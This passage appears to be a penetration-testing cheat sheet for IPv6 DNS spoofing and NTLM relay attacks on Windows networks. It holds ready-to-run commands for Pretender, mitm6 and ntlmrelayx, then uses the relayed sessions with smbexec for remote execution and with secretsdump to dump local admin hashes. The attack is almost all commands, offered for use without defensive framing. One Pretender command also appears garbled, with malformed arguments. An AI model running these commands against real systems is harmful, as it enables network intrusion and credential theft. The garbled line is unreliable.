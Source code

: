 #### Pretender - Spoof specific domain, Excluding specific hosts from spoofing
```bash
./pretender -i $if --spoof $fqdn --dont-spoof-for $ip,defended-edr2 $fqdn fe80::f --ignore-no$fqdn
```

### MITM6 
```bash
pip install mitm6
git clone https://github.com/dirkjanm/mitm6.git
cd mitm6
pip install -r ./requirements.txt
```

```bash
# Run default
mitm6 -i $if -d $fqdn
```

#### MITM6 - Run with a relay target and debug information, optionally ignore dhcp6 requests for queries that dont contain $fqdn
```bash
mitm6 -i $if -r $ip --debug ( --ignore-nofqd )
```

### NTLMRelayX

####  NTLMRelayX - Start NTLMRelayX w/ IPv6, edit ProxyChains config
```bash
./ntlmrelayx.py -6 -socks -smb2support -tf relays.txt
impacket-ntlmrelayx -6 -socks -smb2support -tf relays.txt
sudo vim /etc/proxychains4.conf
socks4 127.0.0.1 1080
```

####  NTLMRelayX - Check list of captured sessions in ntlmnrely console
```bash
socks
```

####  NTLMRelayX - SMB Exec over Socks w/ required rights and no AV blocks
```bash
proxychains4 -q smbexec.py $fqdn $user:$password@$ip
```

####  NTLMRelayX - Grab Local Admin hash using Secretsdump
```bash
proxychains4 -q secretsdump.py $fqdn $user:$password@$ip
```

####  NTLMRelayX - may have to use VSS
```bash
proxychains4 -q secretsdump.py -use-vss  $fqdn $user:$password@$ip  
```

